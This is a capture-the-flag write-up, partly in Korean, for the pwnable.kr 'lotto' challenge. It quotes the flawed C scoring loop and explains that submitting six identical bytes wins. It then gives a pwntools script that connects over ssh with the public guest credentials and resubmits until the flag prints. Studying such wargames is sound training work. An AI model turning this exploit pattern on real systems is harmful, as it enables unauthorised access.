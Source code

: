 # [pwnable.kr] lotto

> Mommy! I made a lotto program for my homework.
> do you want to play?
>
> ssh lotto@pwnable.kr -p2222 (pw:guest)

## Bug

```c
/* lotto.c */

	// calculate lotto score
	int match = 0, j = 0;
	for(i=0; i<6; i++){
		for(j=0; j<6; j++){
			if(lotto[i] == submit[j]){
				match++;
			}
		}
	}

	// win!
	if(match == 6){
		system("/bin/cat flag");
	}
	else{
		printf("bad luck...\n");
	}
```

점수를 계산할 때 6개의 숫자가 모두 일치하는지 검사하는 것이 아니라, 선택한 각각의 숫자가 정답에 존재하는지 검사한다. 따라서 6개 모두 같은 숫자를 선택하면, 그 숫자가 정답에 존재하기만 하면 6점이 되어 플래그를 획득할 수 있다.

## Exploit

```python
from pwn import *

p = ssh("lotto", "pwnable.kr", 2222, "guest").process("/home/lotto/lotto")

sla = p.sendlineafter
sa = p.sendafter

while True:
    payload = b"\x01" * 6  # choose 6 same numbers
    sla(b"3. Exit\n", b"1")
    sa(b"Submit your 6 lotto bytes : ", payload)

    p.recvuntil(b"Lotto Start!\n")
    result = p.recvline()
    if b"bad luck..." in result:
        continue
    else:
        print(result)
        break

p.interactive()
```

![image](https://github.com/user-attachments/assets/ceb6ae3a-c4a8-4175-8625-402b9dd5db9e)
